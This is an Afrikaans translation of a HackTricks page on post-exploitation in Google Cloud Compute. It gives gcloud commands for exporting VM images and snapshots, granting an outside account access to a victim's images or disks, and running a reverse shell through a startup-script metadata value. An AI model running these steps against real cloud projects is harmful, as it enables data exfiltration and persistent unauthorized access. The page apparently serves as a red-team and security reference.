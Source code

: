 # GCP - Compute Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (Netwerk) kyk:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksporteer & Ondersoek Beelde plaaslik

Dit sou 'n aanvaller in staat stel om **toegang te verkry tot die data wat in reeds bestaande beelde bevat is** of **nuwe beelde van lopende VM's te skep** en toegang tot hul data te verkry sonder om toegang tot die lopende VM te hê.

Dit is moontlik om 'n VM-beeld na 'n emmer te eksporteer en dit dan af te laai en plaaslik te monteer met die opdrag:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Voordat hierdie aksie uitgevoer kan word, mag die aanvaller moontlik bevoegdhede oor die stoor-bucket benodig en beslis **bevoegdhede oor cloudbuild** aangesien dit die **diens** is wat gevra gaan word om die uitvoer uit te voer.\
Boonop, om dit te laat werk, benodig die codebuild SA en die compute SA bevoorregte toestemmings.\
Die cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benodig:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

En die SA `<project-id>-compute@developer.gserviceaccount.com` benodig:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Voer uit & Ondersoek Snapshots & Skyfies plaaslik

Dit is nie moontlik om snapshots en skyfies direk uit te voer nie, maar dit is moontlik om **'n snapshot in 'n skyf, 'n skyf in 'n beeld** te transformeer en volgens die **vorige afdeling**, daardie beeld uit te voer om dit plaaslik te ondersoek.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ondersoek 'n Beeld wat 'n VM skep

Met die doel om toegang te verkry tot die **data wat in 'n beeld gestoor is** of binne 'n **lopende VM** van waar 'n aanvaller **'n beeld geskep het,** is dit moontlik om 'n eksterne rekening toegang tot die beeld te gee:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
en skep dan 'n nuwe VM daarvan:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
As jy nie jou eksterne rekening toegang oor die beeld kon gee nie, kan jy 'n VM met daardie beeld in die slagoffer se projek begin en **die metadata laat 'n omgekeerde skulp uitvoer** om toegang tot die beeld te verkry deur die param toe te voeg:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Met die doel om toegang te verkry tot die **data wat in 'n skyf of 'n snapshot gestoor is, kan jy die snapshot in 'n skyf omskep, 'n skyf in 'n beeld en die vorige stappe volg.**

Of jy kan **'n eksterne rekening toegang verleen** oor die skyf (as die beginpunt 'n snapshot is, gee toegang oor die snapshot of skep 'n skyf daaruit):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Koppel die skyf** aan 'n instansie:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount die skyf binne die VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiseer die Skyf**: Sodra jy binne die VM is, identifiseer die nuwe skyf deur die skyf toestelle te lys. Gewoonlik kan jy dit vind as `/dev/sdb`, `/dev/sdc`, ens.
3. **Formateer en Mount die Skyf** (as dit 'n nuwe of rou skyf is):
*   Skep 'n mount punt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mount die skyf:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

As jy **nie toegang tot 'n eksterne projek** vir die snapshot of skyf kan gee nie, moet jy dalk **hierdie aksies binne 'n instansie in dieselfde projek as die snapshot/skyf** uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
